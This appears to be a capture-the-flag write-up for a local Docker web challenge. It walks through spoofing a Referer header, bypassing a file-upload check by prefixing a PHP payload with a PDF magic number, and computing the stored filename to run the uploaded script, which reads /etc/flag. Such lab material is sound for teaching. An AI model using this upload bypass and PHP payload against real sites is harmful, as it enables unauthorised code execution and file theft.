

# Solution

Github Repository: https://github.com/ygbull/ctf

## Setup

Go to the root directory of the CTF project and run

```bash
docker build -t ctf .
docker run -d -p 80:80 ctf
```

The apache server should be up on the [http://localhost:80](http://localhost:80).

Change the 80 to any other port if needed.

## Solution

### Step 1

Use the browser to visit the [http://localhost](http://localhost), we will get the message of **Access Denied**. That’s
because to visit the index page, the server require user to have the ***Referer***
from [**umass.edu](http://umass.edu).**


       Therefore, you need to intercept the request using ***[Burp](https://portswigger.net/burp/communitydownload)*** and add: 

```html
Referer: [http://umass.edu](http://umass.edu/)
```


Click `Forward` button on the top left and you will get into the index page like following:


### Step 2

In the index page, we can see that there are two major component. First is upload a pdf file and the other is check if
the flag we found is correct.

First thing we need to try is inject a file into the system so that we can maybe run command with it.

Think about it, if we want to run command in a web server, we are most likely to need a php file. Thus, let’s try to
upload a php file based on the index page hint as following:

```php
<?php
echo file_get_contents('/etc/flag');
```


Then we try to upload, but failed. Because the php file will check the magic number of the file.



In order to bypass the restriction on which kind of file we can upload to the web server, we can change the magic number
of the php file to `pdf`  so that the web server will think we upload a `pdf` file but in reality, we inject a `php`
script into the system.

To achieve that, you can run command as following:

```bash
{ echo "%PDF-"; cat getFlag.php; } > getFlag.pdf
```

And then try to upload `getFlag.pdf` file int the system:


we hijack the request and change the file extension `pdf` into `php`, and then click forward:


And we succeed:


## Step3

Now we already have the php file injected into the system, we need to find where it stored

The following script reversely calculate the file name of the upload file based on what user upload:

```python
import base64

def encode_filename(filename):
    # Encode the filename to bytes, then to Base64
    filename_bytes = filename.encode('utf-8')
    base64_bytes = base64.b64encode(filename_bytes)
    base64_string = base64_bytes.decode('utf-8')

    url_safe_base64_string = base64_string.replace('+', '-').replace('/', '_').rstrip('=')

    return url_safe_base64_string

original_filename = "getFlag.php"
encoded_filename = encode_filename(original_filename)
print(encoded_filename + ".php")
```

Then we replace the `original_filename` with the file name you use for the upload file and run the python script

```nasm
python getFileName.py
```

The printed file name is what you need to get the flag


Use the file name found (`Z2V0RmxhZy5waHA.php` in this case) and add after the `uploads/`

Thus, the URL for the php script we injected earlier is: `localhost/uploads/Z2V0RmxhZy5waHA.php`

Now we can try this URL in the browser and we will get the correct flag.


The highlighted part is supposed to be the flag. Copy that and we go back to the main page, and then check if the flag
is correct:


We put the flag we found in the injected php file and click `Verify Flag` . Seems like we got the flag:

